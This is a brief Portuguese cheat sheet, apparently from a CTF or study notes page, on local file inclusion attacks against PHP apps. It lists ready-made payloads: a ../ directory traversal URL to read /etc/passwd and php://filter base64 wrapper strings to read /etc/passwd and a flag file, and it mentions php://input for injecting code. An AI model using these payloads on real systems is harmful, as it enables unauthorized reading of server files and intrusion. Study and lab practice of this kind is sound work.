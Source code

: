 ### Directory Traversal padrão
Sequências como ../ (ponto-ponto-barra)
- http://exemplo.com/pagina.php?arquivo=../../../../etc/passwd






### Em ambientes PHP vulneráveis, podemos usar wrappers
Como php://filter para ler o conteúdo de arquivos (geralmente codificado, para contornar a execução) ou php://input para injetar código.
- php://filter/convert.base64-encode/resource=dog/../flag
- http://exemplo.com/pagina.php?arquivo=php://filter/read=convert.base64-encode/resource=/etc/passwd
